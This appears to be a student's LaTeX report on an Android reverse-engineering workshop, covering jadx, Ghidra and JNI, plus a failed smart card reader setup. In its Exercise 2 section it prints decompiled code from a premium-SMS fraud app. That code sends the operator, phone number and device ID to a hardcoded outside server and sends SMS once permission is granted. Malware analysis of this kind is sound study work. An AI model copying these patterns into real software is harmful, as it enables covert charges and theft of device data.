\section{Problem set 6}
\subsection{Preface}

The goal of this assignment was to do the ,,Android App Reverse Engineering 101''. As we can read on the workshop's home page, it's goal is to ,,give the foundations to begin reverse engineering Android applications''. The workshop focused mainly on static analysis, all of the tasks were about analysis of Android apps and libraries source code.

\subsection{Setup}
To start work I needed to setup the environment. I had to download an image of VirtualBox machine of Ubuntu system with preinstalled tools to be used when solving excercises. After setting up the environment I've mounted a shared folder between host and guest systems to easily share data extracted from investigated apps with host and to be able to open decompiled code on host.

\subsection{Getting started with Reversing Android App}
\subsubsection{Exercise 1 - Beginning RE with Jadx}
Goal of this exercise was to get familiar with the decompilation tool called \texttt{jadx-gui} and investigate typical Android app structure by investigating sample app called ,,ThaiCamera''. At first, I've decompiled app using ,,Jadx'' and performed static code analysis.

At first, I've analyzed the \texttt{AndroidManifest.xml} file. I've discovered following entry points:

\begin{itemize}
  \setlength\itemsep{0em}
  \item \texttt{com.cp.camera.MyApplication} (\texttt{Application} subclass)
  \item \texttt{com.cp.camera.Loading} (Launcher activity)
  \item \texttt{com.cp.camera.BootService} (Service)
  \item \texttt{com.goog[...]AppMeasurementService} (Service)
  \item \texttt{com.goog[...]FirebaseInstanceIdInternalReceiver} (Service)
\end{itemize}
\section{Reverse Engineering Android Apps - DEX Bytecode}
\subsection{Exercise 2 - Reverse Engineer the DEX}
In this excercise I had to determine if the app is doing premium SMS fraud, that is, using the client device, sends messages to premium numbers. I've started by analyzing source code of each of the entry points.

While analyzing the \texttt{com.cp.camera.Loading} activity, I've encountered
first possible situation where fraud could be performed - the \texttt{onCreate} method.

\subsubsection{onCreate method analysis}

This method performs multiple suspicious operations. At first it reads the phone operator using \texttt{TelephonyManager}, then it performs a POST request to some untrusted server with the operator information. Another important problem is that the request is being done over HTTP protocol, which is very insecure due to lack of encryption. Chunk of source code with the call is displayed on listing \ref{fig:0001}.

\begin{minipage}{\linewidth}
  \begin{lstlisting}[
    style=cpp,
    caption={Suspicious call with operator data.},
    captionpos=b,
    label={fig:0001}
  ]
  HttpURLConnection urlConnection =
     (HttpURLConnection) new URL(
       "http://139.59.107.168:8088/appsharejson?code=" + code
     ).openConnection();
  \end{lstlisting}
  \end{minipage}

Application expects the data returned by the server to be a JSON encoded object with the following keys: \texttt{content, rule, service, code, button, imei, imeicontent}. In the next few steps apps asks user for permissions and finally tries to send a message. The content of message depends only on the data returned from the server. The server probably controls the content of message that will be send from customer device based on the operator. (Probably not all operators supports every premium service and premium services can change over time so this can make the attacker dynamically modify details without hardcoding some values on device)

The \texttt{onCreate} method, as the Android spec states, is being called when activity is being launched and based on the fact that this Activity is a Launcher activity, application tries to send an SMS on every app startup.

Additional issue with the application is the way it informs user about the need for ability to send messages. When user refuses to grand permission it shows a non-informing message ,,Please allow access!''. The code snippet responsible for permission request handling is attached at \ref{fig:0003}. If user accepts the permissions request mistakenly, the app will immediately send the premium message.

\begin{minipage}{\linewidth}
  \begin{lstlisting}[
    style=cpp,
    caption={Permission request handling.},
    captionpos=b,
    label={fig:0003}
  ]
public void onRequestPermissionsResult(
  int requestCode, String[] permissions, int[] grantResults) {
  super.onRequestPermissionsResult(requestCode, permissions, grantResults);
  if (requestCode != 1 || grantResults[0] != 0) {
      Toast.makeText(this, 'Please allow access!', 1).show();
  } else if (this.service != null && this.content != null) {
      sendMessage(this.service, this.content);
  }
}
  \end{lstlisting}
\end{minipage}

\subsubsection{Boot Service class analysis}


Another suspicious place which also performs POST request is the \texttt{Boot Service} (also one of starting at app start up). It's a service that triggers action when receive \texttt{"SENT\_HUGE\_SMS\_ACTION"} that is triggered as a callback to \texttt{sendTextMessage} method of \texttt{SmsManager} in \texttt{Loading} class after sending fraud SMS. This service sends status of SMS sending operation to the \texttt{smspostback} endpoint with additional data - phone number and device id, which is, based on Android spec, ,,unique device ID of a subscription, for example, the IMEI for GSM and the MEID for CDMA phones''. Listing \ref{fig:0002} shows the exact code that generates URL with params.

\begin{minipage}{\linewidth}
  \begin{lstlisting}[
    style=cpp,
    caption={Second suspicious call with phone number, device ID and status of operation.},
    captionpos=b,
    label={fig:0002}
  ]
  HttpURLConnection urlConnection =
  (HttpURLConnection) new URL(
    "http://139.59.107.168:8088/smspostback?phone="
    + this.phone + "&status=" + status + "&diviceid="
    + getDeviceId()).openConnection();
  \end{lstlisting}
  \end{minipage}


\section{Reverse Engineering Android Apps - Native Libraries}


\subsubsection{Exercise 5 - Find the Address of the Native Function}
Goal of this task was to get familiar with reverse engineering Android apps that has some methods written in \texttt{C/C++} language that are compiled and used as external libraries. Usage of such functions is possible in \texttt{Java} thanks to the ,,Java Native Interface''.

In this excercise I had to perform operations learned in the previous one (usage of \texttt{jadx-gui}), extract compiled library file \texttt{librrnad.so} and, using another tool provided with system image called \texttt{Ghidra}, decompile the code. Figure \texttt{fig:assembly} shows example of assembly code in the \texttt{Ghidra} tool.

\begin{figure}[!htb]
  \center{
    
\includegraphics[scale=0.4]{assembly}
    \caption{\label{fig:assembly}} Part of assembly code generated by \texttt{Ghidra} from \texttt{librrand.so}.
  }
\end{figure}

The exercise also described the naming convention for externally called methods, type signatures and functions commonly used by the ,,JNIEnv''. It also provided some useful tips about the process of debugging of the decompiled code. What's worth remembering is that:

\begin{itemize}
  \item {To load native app Android uses \texttt{System.loadLibrary} or \texttt{System.load} calls.}
  \item All the external ,,native'' methods have no implementation (are empty) and got \texttt{native} prefix.
  \item Dynamic linking let's automatically register method, the only need is proper name.
  \item Static linking, using \texttt{RegisterNatives} API, enables user to register his own method programatically.
\end{itemize}

After decompilation I realized that decompiled code is not so easy to operate with as the original source code and fluent analysis requires a lot of experience, skill and focus. Figure \texttt{fig:decompiled} shows example of code decompiled by \texttt{Ghidra}.


\begin{figure}[!htb]
  \center{
    
\includegraphics[scale=0.4]{decompiled}
    \caption{\label{fig:decompiled}} Example part of method decompiled by \texttt{Ghidra}.}
\end{figure}

\subsection{Smart Card}

The lecturer equipped me with the ,,Gemplus GEMPC430'' smart card reader. Unfortunately I had some troubles detecting and interacting with the smart card. I've used the \texttt{pyscard} library, however it did not detect the smart card reader plugged into USB (Execution attached at listing \ref{fig:python-pyscard}).


\begin{minipage}{\linewidth}
  \begin{lstlisting}[
   style=python,
   caption={Usage of \texttt{pyscard} library.},
   captionpos=b,
   label={fig:python-pyscard}
 ]
 >>> from smartcard.System import readers
 >>>
 >>> r = readers()
 >>> print(r)
 [] # Method returned empty list.
  \end{lstlisting}
\end{minipage}

My another approach was to use the \texttt{MacOS} built-in tool to test the connection with Smart Card readers called ,,pscstest''. Unfortunately, it also did not detect the Smart Card. The execution of \texttt{pscstest} program is shown of \ref{fig:pscstest}, was killed by SIGINT after detection fail.

\begin{minipage}{\linewidth}
  \begin{lstlisting}[
   style=python,
   caption={Execution of \texttt{pcsctest} program.},
   captionpos=b,
   label={fig:pscstest}
 ]
 > pcsctest

 MUSCLE PC/SC Lite Test Program

 Testing SCardEstablishContext    : Command successful.
 Testing SCardGetStatusChange
 Please insert a working reader   :
 ^C
  \end{lstlisting}
\end{minipage}

Listing \ref{fig:pscssample} is a successful sample of execution of \texttt{pscstest} detecting ,,Gemplus GemPC Twin'' card found on the internet.

\begin{minipage}{\linewidth}
  \begin{lstlisting}[
   style=python,
   caption={Sample of successful \texttt{pcsctest} execution.},
   captionpos=b,
   label={fig:pscssample}
 ]
 > pcsctest

 MUSCLE PC/SC Lite Test Program

 Testing SCardEstablishContext    : Command successful.
 Testing SCardGetStatusChange
 Please insert a working reader   : Command successful.
 Testing SCardListReaders         : Command successful.
 Reader 01: Gemplus GemPC Twin 00 00
 Enter the reader number          : 1

  \end{lstlisting}
\end{minipage}

What was interesting, the ,,GEMPC430, USB Card Reader from GEMPLUS'' reader was detected as USB device by the system. Running \texttt{system\_ profiler SPUSBDataType} which is an equivalent for \texttt{lsblk} command on \texttt{Linux} returned the device info among the others. Listing \ref{fig:profiler} shows part of the output of \texttt{system\_profiler SPUSBDataType} command.

\begin{minipage}{\linewidth}
  \begin{lstlisting}[
   style=python,
   caption={Part USB devices listing.},
   captionpos=b,
   label={fig:profiler}
 ]
 > system_profiler SPUSBDataType


 GEMPC430, USB Card Reader GEMPLUS:

 Product ID: 0x0430
 Vendor ID: 0x08e6  (Gemalto SA)
 Version: 1.00
 Speed: Up to 12 Mb/sec
 Manufacturer: GEMPLUS
 Location ID: 0x14224200 / 16
 Current Available (mA): 500
 Current Required (mA): 100
 Extra Operating Current (mA): 0

  \end{lstlisting}
\end{minipage}
